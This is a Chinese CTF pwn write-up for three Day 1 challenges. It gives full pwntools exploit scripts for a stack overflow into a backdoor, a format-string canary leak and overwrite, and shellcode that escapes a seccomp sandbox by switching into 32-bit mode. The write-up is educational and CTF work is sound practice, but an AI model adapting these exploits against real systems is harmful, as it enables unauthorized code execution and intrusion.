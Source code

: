 CrazyCat PWN

# Day1
## ezpwn
![[Pasted image 20250210232353.png]]
输入的值与DAT_00405068一样后便可以栈溢出。
![[Pasted image 20250210232500.png]]
答案是年度最佳astrobot。
![[Pasted image 20250210232539.png]]
可以找到backdoors，构造payload即可。
exp:
```python
from pwn import *
from wstube import websocket

context(arch='amd64', os='linux', log_level='debug')
local = True
if local:
	p = process('./ezpwn')
else:
	p = websocket('ws://ctf.miaoaixuan.cn/api/proxy/0194eda1-f812-771e-9167-d804f8f8a76f')

ret = 0x40101a
backdoors = 0x401539
key = b'astrobot'
p.recvuntil(b'\x21\x0a')
p.send(key)
p.recvuntil(b'something:')
payload = b'A' * 0x58 + p64(ret) + p64(backdoors)
p.sendline(payload)
p.interactive()
```
shell:
![[Pasted image 20250210232813.png]]
## fmt_str
有backdoor，开启了canary，有格式化字符串漏洞，可以用该漏洞泄漏canary。
![[Pasted image 20250210232848.png]]
有两个有用的函数，第一个当地址为0x404068的值为0x56785678时便可以进入第二步，第二步则是简单的ret2text。
第一步用格式化字符串漏洞修改0x404068的值为0x56785678即可。
exp:
```python
from pwn import *
from wstube import websocket

context(arch='amd64', os='linux', log_level='debug')
local = False
if local:
	p = process('./fmt_str')
	pwnlib.gdb.attach(p, 'b *0x40127b')
else:
	p = websocket('ws://ctf.miaoaixuan.cn/api/proxy/0194f07e-58cc-74dd-b653-4657c29d274e')  

backdoor = 0x4013df
change_addr = 0x404068
ret = 0x40101a

p.sendlineafter(b'Input:', b'%25$p')
p.recvuntil(b'0x')
canary = int(p.recv(16), 16)
log.info(f'canary: {hex(canary)}')

payload = fmtstr_payload(8, {change_addr: 0x56785678}, write_size='byte')
p.sendlineafter(b'Input:', payload)
p.recvuntil(b'first step!')

payload2 = b'a' * 0x88 + p64(canary) + b'b' * 8 + p64(ret) + p64(backdoor)
p.sendline(payload2)

p.interactive()
```
shell:
![[Pasted image 20250210233359.png]]
## shellcode
![[Pasted image 20250210233720.png]]
可以看到是一个开启了sandbox的shellcode题。
![[Pasted image 20250210233928.png]]
sandbox仅允许使用rw,可以看到是缺o的，该怎么办呢，搜索后发现fstat函数的系统调用0x5是32位的open函数的系统调用，所以思路就是用mmap开辟一个新的空间来存放一段32位的程序然后在里面调用32位的open，然后再切换回64位调用read和write函数。
exp:
```python
from pwn import *
from wstube import websocket

# context(arch='amd64', os='linux', log_level='debug')
local = False
if local:
	p = process('./shellcode')
	pwnlib.gdb.attach(p, 'b printf')
else:
	p = websocket('ws://ctf.miaoaixuan.cn/api/proxy/0194f082-499c-7e79-aaec-7f4576faa685')

elf = ELF('./shellcode')
buf = elf.bss()
print(hex(buf))

shellcode = '''
	/* 恢复rsp */
	mov rsp, rdx
	add sp, 0x100
	
	/* mmap(0x40404040, 0x7e, 7, 34, 0, 0) */
	mov rdi, 0x40404040
	mov rsi, 0x7e
	mov rdx, 7
	mov rax, 9
	mov r8, 0
	mov r9, 0
	mov r10, 34
	syscall
	
	/* read(0, 0x40404040, 0x100) */
	mov rdi, 0
	mov rsi, 0x40404040
	mov rdx, 0x100
	mov rax, 0
	syscall
	
	/* mode_64 -> mode_32 */
	push 0x23
	push 0x40404040
	retfq
'''

shellcode_x86 = '''
	mov esp, 0x40404140
	push 0x67616c66
	push esp
	pop ebx
	xor ecx, ecx
	mov eax, 5
	int 0x80
	mov ecx, eax
'''
shellcode_flag = '''
	push 0x33
	push 0x40404089
	retfq
	
	mov rdi, rcx
	mov rsi, rsp
	mov rdx, 0x70
	xor rax, rax
	syscall
	
	mov rdi, 1
	mov rax, 1
	syscall
'''
shellcode = asm(shellcode, arch='amd64', os='linux')
shellcode_flag = asm(shellcode_flag, arch='amd64', os='linux')
shellcode_x86 = asm(shellcode_x86)
p.sendlineafter('shellcode:', shellcode)
pause()
p.sendline(shellcode_x86 + 0x29 * b'\x90' + shellcode_flag)

p.interactive()
```
shell:
![[Pasted image 20250210233827.png]]
## walt改造的编译器
